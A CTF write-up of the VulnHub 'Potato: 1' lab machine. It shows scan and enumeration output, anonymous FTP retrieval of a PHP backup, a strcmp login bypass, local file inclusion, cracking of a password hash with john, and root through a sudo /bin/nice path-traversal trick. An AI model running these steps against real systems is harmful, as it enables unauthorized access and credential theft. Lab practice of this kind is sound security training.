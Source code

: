 ```yaml
---
title: Potato:1 - Writeup
author: Elman Alizadeh
date: 2022-06-05 21:50:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, potato]
---
```


Today we will take a look at Vulnhub: Potato: 1. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-potato/1.png" | relative_url }})

## Nmap

```console
$ sudo nmap -p- -sCV --open 192.168.149.101

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster

```console
$ gobuster dir -u http://192.168.149.101 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.149.101
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/05 20:24:08 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 318] 
/potato               (Status: 301) [Size: 319] 
```

## Ftp

```console
$ ftp 192.168.149.101 2112    

Connected to 192.168.149.101.
220 ProFTPD Server (Debian) [::ffff:192.168.149.101]
Name (192.168.149.101:al1z4deh): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230-Welcome, archive user anonymous@192.168.49.149 !
230-
230-The local time is: Sun Jun 05 16:52:39 2022
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Aug  2  2020 .
drwxr-xr-x   2 ftp      ftp          4096 Aug  2  2020 ..
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> mget *
mget welcome.msg? y
200 PORT command successful
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
226 Transfer complete
54 bytes received in 0.00 secs (155.5586 kB/s)
mget index.php.bak? y
200 PORT command successful
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
226 Transfer complete
901 bytes received in 0.00 secs (1012.5234 kB/s)
ftp> bye
221 Goodbye.
```

## Web

When we look at the website, we see a simple login page. We took its back codes from ftp. Now let’s analyze them.

```console
$ cat index.php.bak

if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
```

We see that we can bypass this line by searching.

[strcmp_bypass](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016)

![Desktop View]({{ "/assets/img/vuln-potato/2.png" | relative_url }})

And here we login.

## LFI

Once logged in, dashboard.php has a logs section. After selecting a file, click the get the log button.

When we catch the request with burp, we see the file parameter. I used it as lfi.

![Desktop View]({{ "/assets/img/vuln-potato/3.png" | relative_url }})

We got the result. When we look at the results, we see the password of the webadmin user in hash format. Crack it.

```console
$ nano hash

$ john hash --wordlist=/usr/share/wordlists/rockyou.txt

Created directory: /home/al1z4deh/.john
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragon           (webadmin)     
1g 0:00:00:00 DONE (2022-06-05 20:58) 2.702g/s 518.9p/s 518.9c/s 518.9C/s 123456..november
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## Ssh

Let’s enter with ssh.

```console
$ ssh webadmin@192.168.149.101
```

## Root

```console
$ sudo -l

(ALL : ALL) /bin/nice /notes/*
```

In /notes folder we have two scripts which will run as root if we use sudo.

Let’s write a script that we will use.

```console
webadmin@serv:~$ echo "/bin/bash" >> root.sh

webadmin@serv:~$ sudo /bin/nice /notes/../home/webadmin/root.sh
```

![Desktop View]({{ "/assets/img/vuln-potato/4.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-potato/5.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”
